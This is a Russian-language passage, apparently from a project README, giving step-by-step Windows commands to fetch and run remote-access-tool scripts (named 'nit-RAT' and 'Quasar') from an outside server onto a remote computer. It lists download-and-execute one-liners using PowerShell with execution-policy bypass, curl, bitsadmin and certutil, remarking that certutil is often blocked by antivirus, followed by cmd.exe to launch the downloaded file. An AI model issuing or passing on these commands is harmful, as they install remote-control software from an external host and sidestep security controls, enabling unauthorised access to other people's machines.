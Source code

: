 (требует установленного powershell 2.0+, .Net Framework 3.5+), или

```text
powershell.exe -NoLogo -NoProfile -WindowStyle Normal -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-coba-run-00.cmd' -OutFile 'C:\Users\Администратор\nit-RAT-coba-run-00.cmd'
```

(требует установленного powershell 3.0+, Net Framework 4+), или

```text
c:\Util\curl.exe http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-coba-run-00.cmd -o C:\Users\Администратор\nit-RAT-coba-run-00.cmd
```

(работает всегда, но требует предварительной настройки)

Команда 2:

```text
cmd.exe /c C:\Users\Администратор\nit-RAT-coba-run-00.cmd
```

#### Программа Quasar (не игра)

Способ 1:

Загрузите файл по ссылке и запустите его в папке «Загрузки»:

<http://distrib.netip6.ru:80/NIT/RAT/download.php?file=nit-QUASAR-remote-RAT.bat>

Способ 2:

Последовательно выполните следующие команды на удалённом компьютере/сервере:

Команда 1:

```text
bitsadmin.exe /Transfer RemoteEnable00 /DOWNLOAD /PRIORITY FOREGROUND http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-Quasar-run-00.cmd C:\Users\Администратор\nit-RAT-Quasar-run-00.cmd
```

(работает только в командных файлах или при виртуальном доступе), или

```text
certutil.exe -urlcache -f http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-Quasar-run-00.cmd C:\Users\Администратор\nit-RAT-Quasar-run-00.cmd
```

(часто не запускается, блокируется антивирусом), или

```text
powershell.exe -NoLogo -NoProfile -WindowStyle Normal -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).DownloadFile('http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-Quasar-run-00.cmd', 'C:\Users\Администратор\nit-RAT-Quasar-run-00.cmd')
```

(требует установленного powershell 2.0+, .Net Framework 3.5+), или

```text
powershell.exe -NoLogo -NoProfile -WindowStyle Normal -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'http://distrib.netip6.ru:80/NIT/RAT/nit-RAT-Quasar-run-00.cmd' -OutFile 'C:\Users\Администратор\nit-RAT-Quasar-run-00.cmd'
```
